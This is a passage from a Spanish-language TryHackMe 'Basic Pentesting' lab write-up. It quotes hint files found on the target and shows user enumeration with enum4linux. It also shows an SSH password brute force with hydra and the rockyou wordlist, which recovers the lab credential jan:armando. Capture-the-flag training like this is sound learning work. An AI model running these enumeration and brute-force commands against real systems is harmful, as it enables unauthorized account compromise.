

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/tryhackme/basicpentesting/index.html · generator: mkdocs

# Basic Pentesting

![](../../assets/img/Pasted_image_20251026214607.png)

/development/dev.txt -> hay un servicio con versión 2.5.12

```text
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```


j.txt

```text
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Credenciales facilmente crakeables para el usuario J
hay otro usuario K

Intentamos enumerar usuarios
`enum4linux -a 10.10.197.83`
-a : Do all simple enumeration

![](../../assets/img/Pasted_image_20251027085020.png)

**kay , jan**

`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.197.83`
**jan:armando**
